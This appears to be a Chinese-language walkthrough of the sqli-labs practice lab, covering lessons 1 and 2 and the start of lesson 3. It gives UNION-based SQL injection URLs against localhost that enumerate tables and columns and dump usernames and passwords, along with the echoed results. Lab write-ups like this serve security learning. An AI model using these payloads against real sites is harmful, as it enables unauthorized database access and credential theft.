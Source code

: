 通过判断是一个简单的GET字符型单引号闭合注入，直接判断列数为3列，回显位置2,3 进行联合查询

```mysql
http://localhost/sqli-labs-master/less-1/?id=-1' union select 1,@@version,group_concat(table_name) from information_schema.tables where table_schema=database() -- -
```

回显：Your Login name:5.7.26
Your Password:emails,referers,uagents,users
继续爆列名

```mysql
http://localhost/sqli-labs-master/less-1/?id=-1' union select 1,@@version,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' -- -
```

回显：Your Login name:5.7.26
Your Password:id,username,password
拿到密码:

```mysql
http://localhost/sqli-labs-master/less-1/?id=-1' union select 1,@@version,group_concat(username,password) from users -- -
```

------

## less-2

找到注入点 注入方式是基于GET的数字型注入
判断列数为三行 开始注入

```mysql
http://localhost/sqli-labs-master/less-2/?id=-1 union select 1,@@version,group_concat(table_name)from information_schema.tables where table_schema=database() -- -
```

回显：Your Login name:5.7.26
Your Password:emails,referers,uagents,users

```mysql
http://localhost/sqli-labs-master/less-2/?id=-1 union select 1,@@version,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users' -- -
```

回显：  Your Login name:5.7.26
Your Password:id,username,password  

```mysql
http://localhost/sqli-labs-master/less-2/?id=-1 union select 1,@@version,group_concat(username,password) from users -- - 拿到数据
```

------

## less-3

判断闭合方式 是GET型的 字符型注入 闭合符号是 ') 
